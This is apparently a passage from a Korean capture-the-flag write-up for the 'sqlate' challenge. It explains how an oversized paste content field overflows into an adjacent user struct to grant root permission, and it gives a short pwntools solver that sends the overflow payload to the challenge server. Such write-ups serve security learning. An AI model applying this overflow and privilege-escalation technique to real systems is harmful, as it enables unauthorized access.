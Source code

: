 ```C

        strncpy(paste.title, title ? title : "", sizeof(paste.title) - 1);
        paste.title[sizeof(paste.title) - 1] = '\0';

        strncpy(paste.language, language ? language : "", sizeof(paste.language) - 1);
        paste.language[sizeof(paste.language) - 1] = '\0';

        strncpy(paste.content, content ? content : "", sizeof(paste.content) - 1);
        paste.content[sizeof(paste.content) - 1] = '\0';

        print_paste(&paste);

        rc = sqlite3_step(stmt);
    }

    rc = sqlite3_finalize(stmt);
    error_handle(SQLITE_OK);
}
```

`action_list`는 `sql`에 있던 글들을 `paste`에 옮겨 `print_paste` 함수를 통해 출력합니다. 이 때 `content` 영역의 내용이 위의 `action_update` 함수에 의해 최대 384바이트가 되어 메모리 오버플로우(memory overflow)가 발생합니다. `paste`와 `current_user`가 붙어있기 때문에 `current_user`의 flag를 덮을 수 있습니다. 이렇게 사용자에게 `permission_root`를 부여하고 `flag`를 읽습니다.

<br>
- 솔버

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./vuln')
p = remote('sqlate.chal.irisc.tf', 10000)

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b': ', b'csh')
p.sendlineafter(b': ', b'csh')
p.sendlineafter(b': ', b'csh')

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'>', b'2')
p.sendlineafter(b'>', b'2')
p.sendlineafter(b': ', b'\xfe' * 192 + b'\x00')
p.sendlineafter(b': ', b'csh')
p.sendlineafter(b'>', b'4')
p.sendlineafter(b'>', b'7')
p.interactive()
```

<br>
- 후일담
